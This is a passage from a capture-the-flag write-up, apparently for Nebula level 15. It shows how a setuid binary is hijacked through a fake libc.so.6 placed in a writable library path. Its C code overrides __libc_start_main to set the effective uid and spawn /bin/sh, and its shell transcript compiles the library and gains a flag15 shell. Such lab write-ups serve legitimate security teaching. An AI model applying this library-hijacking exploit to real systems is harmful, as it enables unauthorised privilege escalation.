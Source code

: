  The __gmon_start__ element points to the gmon initialization function, which starts the recording of profiling information and registers a cleanup function with atexit(). 
 
 The __libc_start_main() function shall perform any necessary initialization of the execution environment, call the main function with appropriate arguments, and handle the return from main(). If the main() function returns, the return value shall be passed to the exit() function. 
 
 ```sh
 
 sh-4.2$ cat level15.c 
#include <linux/unistd.h>
#include <stdlib.h>

int __libc_start_main(int *(main) (int, char * *, char * *), 
int argc, char * * ubp_av, void (*init) (void), 
void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)){

setresuid(geteuid(), geteuid(), geteuid());
system("/bin/sh");
return 0;
}

```

```sh
sh-4.2$ gcc -shared -fPIC -o /var/tmp/flag15/libc.so.6 /var/tmp/flag15/level15.c 
sh-4.2$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference

 ```
 
 So we need to add version and __cxa_finalize to our library and statically link library:
 
 ```sh
sh-4.2$ cat /var/tmp/flag15/level15.c 
#include <linux/unistd.h>
#include <stdlib.h>

void __cxa_finalize(void * d){}


int __libc_start_main(int *(main) (int, char * *, char * *), 
int argc, char * * ubp_av, void (*init) (void), 
void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)){

setresuid(geteuid(), geteuid(), geteuid());
system("/bin/sh");
return 0;
}
sh-4.2$ gcc -fPIC -o libc.so.6 -shared level15.c -static-libgcc -Wl,--version-script=version,-Bstatic
sh-4.2$ /home/flag15/flag15 
sh-4.2$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)
sh-4.2$ getflag 
You have successfully executed getflag on a target account
```
